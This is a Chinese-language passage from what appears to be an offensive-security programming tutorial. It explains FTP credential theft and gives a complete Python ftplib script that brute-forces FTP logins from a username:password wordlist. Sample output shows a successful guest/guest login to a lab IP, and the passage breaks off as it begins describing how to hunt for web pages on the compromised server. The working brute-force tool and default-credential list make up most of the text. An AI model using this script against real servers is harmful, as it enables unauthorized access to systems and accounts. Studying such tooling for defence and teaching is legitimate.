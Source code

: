 **利用 Ftplib 暴力破解 FTP 用户认证**

当匿名登录一路回车进入系统，攻击者也十分成功的利用偷来的证书获得合法FTP服务器的访问权限。FTP客户端程序，比如说FileZilla，经常将密码存储在配置文件中。安全专家发现，由于最近的恶意软件，FTP证书经常被偷取。此外，HD Moore甚至将 get_filezilla_creds.rb 的脚本包含到最近的Metasploit的发行版本中允许用户快速的扫描目标主机的FTP证书。想象一个我们想通过暴力破解的包含 username/password 组合的文本文件。对于这个脚本的目的，利用存贮在文本文件中的 username/password 组合

```
administrator:password
admin:12345
root:secret
guest:guest
root:toor
```

现在我们能扩展前面建立的 anonLogin() 函数建立名为 brutelogin() 的函数。这个函数接受主机名和密码文件作为输入返回允许访问主机的证书。注意，函数迭代文件的每一行，用冒号分割用户名和密码，然后这个函数用用户名和密码尝试登陆FTP服务器。如果成功，将返回用户名和密码的元组，如果失败有异常，将继续测试下一行。如果遍历完所有的用户名和密码都没有成功，则返回包含 None 的元组。

```py
# coding=UTF-8
import ftplib
def bruteLogin(hostname, passwdFile):
 pF = open(passwdFile, 'r')
 for line in pF.readlines():
 userName = line.split(':')[0]
 passWord = line.split(':')[1].strip('\r').strip('\n')
 print("[+] Trying: " + userName + "/" + passWord)
 try:
 ftp = ftplib.FTP(hostname)
 ftp.login(userName, passWord)
 print('\n[*] ' + str(hostname) + ' FTP Logon
Succeeded: ' + userName + "/" + passWord)
 ftp.quit()
 return (userName, passWord)
 except Exception as e:
 pass
 print('\n[-] Could not brute force FTP credentials.')
 return (None, None)
host = '192.168.95.179'
passwdFile = 'userpass.txt'
bruteLogin(host, passwdFile)
```

遍历用户名和密码组合，我们终于找到了用户名以及对应的密码。

```
attacker# python bruteLogin.py
[+] Trying: administrator/password
[+] Trying: admin/12345
[+] Trying: root/secret
[+] Trying: guest/guest
[*] 192.168.95.179 FTP Logon Succeeded: guest/guest
```

**在 FTP 服务器上寻找 WEB 页面**

有了FTP访问权限，我们还要测试服务器是否还提供了WEB访问。为了测试这个，我们首先要列出FTP的服务目录并寻找默认的WEB页面。函数 returnDefault() 接受一个FTP连接作为输入并返回一个找到的默认页面的数组。它通过发送命令NLST列出目录内容。这个函数检查每个文件返回默认WEB页面文件名并将任何发现的默认WEB页面文件名添加到名为 retList 的列表中。完成迭代这些文件之后，函数将返回这个列表
